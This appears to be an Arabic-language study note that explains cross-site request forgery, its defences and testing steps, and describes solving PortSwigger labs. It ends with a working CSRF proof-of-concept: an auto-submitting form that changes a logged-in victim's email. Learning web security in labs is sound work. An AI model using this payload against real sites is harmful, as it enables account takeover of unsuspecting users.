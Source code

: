 
#### «إنَّ الحمدَ للهِ ، نحمدُه ونستعينُه ونستهديه ونستغفِرُه ، ونعوذُ باللهِ من شرورِ أنفسنِا ومن سيِّئاتِ أعمالِنا ، من يهدِه اللهُ فلا مُضلَّ له ، ومن يُضلِلْ فلا هاديَ له ، وأشهدُ أن لا إلهَ إلَّا اللهُ وحدَه لا شريكَ له ، وأشهدُ أنَّ محمَّدًا عبدُه ورسولُه»
----

### أي هي ال csrf ؟

ال CSRF (تزوير الطلبات بين المواقع) هي طريقة الهاكر بيستخدمها عشان يخليك - من غير ما تاخد بالك - تنفذ حاجة على موقع إنت أصلاً مسجل دخول عليه.
### مثال بسيط:

- إنت فاتح حسابك على بنك أونلاين، ومُسجل دخول.
- في نفس الوقت دخلت على موقع مشبوه (مثلاً دوست علي لينك في رسالة أو إعلان).
- الموقع المشبوه ده بيبعت طلب للموقع بتاع البنك نيابة عنك، زي مثلاً يحوّل فلوس أو يغير الباسوورد.
- لأن المتصفح بتاعك فيه "ال cookies" اللي بتأكد إنك مسجل دخول، البنك هيصدق إن الطلب ده منك، مع إنه من الهاكر.
### طيب إزاي نحمي نفسنا؟

1. المواقع بتضيف أكواد حماية زي **CSRF Token**، وده زي مفتاح سري بيتأكد إن الطلب جاي من مكان موثوق.
2. متفتحش روابط غريبة وأنت مسجل دخول على مواقع حساسة زي البنك أو أي حساب مهم.
3. استخدم متصفح حديث لأنه بيكون فيه إجراءات حماية متطورة.

>يعني الموضوع ببساطة: الهاكر بيحاول يستغل جلستك المفتوحة على موقع موثوق عشان يعمل طلبات من غير إذنك.

### خطوات البحث علي ال CSRF ؟

- لو الrequest مفهوش csrf token يبقي بنسبة كبيرة مفيش حماية ويبقي الموقع معرض للثغرة
- جرب تغير قيمة الcsrf أو تشيلها خالص وطبعا تبعت ال request في كل مرة
- جرب تغير ال request method من POST ل GET والعكس صحيح طبعا
- أعمل أكونت جديد وجرب بالcsrf token بتاعته انك تغير أي information في الأكونت القديم
- حاول تعمل chain بين الثغرة دي واي ثغرة تانية زي XSS أو CRLF

### أزاي حليت لابات بورت سويجر ؟

- الحل مخرجش من قسم خطوات البحث علي ال CSRF
- + أني أخدت الفورم بتاعت ال change email وعملت عليها زي فلترة عشان اقدر احطها في السيرفر وأحاكي الreal target فحولتها من
```HTML
<form class="login-form" name="change-email-form" action="/my-account/change-email" method="POST">
	<label>Email</label>
	<input required type="email" name="email" value="">
	<button class='button' type='submit'> Update email </button>
</form>
```
الي كدة
```HTML
<form name="change-email-form" action="[YOUR LAP LINK]/my-account/change-email" method="POST">
	<input required type="email" name="email" value="hacker@gmail.com">
</form>
<script>
	document.forms[0].submit();
</script>
```
وكنت بغير بقي حاجات زي ال method حسب اللاب وهكذا

---
